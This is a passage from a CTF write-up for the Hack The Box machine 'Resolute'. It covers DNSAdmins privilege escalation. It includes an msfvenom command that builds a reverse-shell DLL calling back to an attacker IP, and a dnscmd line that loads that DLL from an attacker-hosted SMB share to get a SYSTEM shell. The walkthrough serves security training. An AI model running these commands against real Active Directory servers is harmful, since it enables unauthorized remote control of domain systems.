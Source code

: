 > DNSAdmin : Members of DNSAdmins group have access to network DNS information. The default permissions are as follows: Allow: Read, Write, Create All Child objects, Delete Child objects, Special Permissions.

There is a popular attack called `DLL Injection`

**Reference:** [https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2)

## Privilege Escalation


### Building the Payload

```bash
root@w0lf:~/CTF/HTB/Boxes/Resolute# msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=1234 -f dll > root.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 5120 bytes
```

### Uploading the Payload:

I used SMB Server to host our payload.

This command will inject our payload.

```bash
dnscmd resolute /config /serverlevelplugindll \\10.10.14.6\share\root.dll
```

![Untitled](/img/htb-resolute/Untitled%204.png)


Started my nc listener and we need to restart the service, so the `dll` will be triggered and we get the shell with Administrator privileges.[br/](br/)
![Untitled](/img/htb-resolute/Untitled%205.png)

We own the System.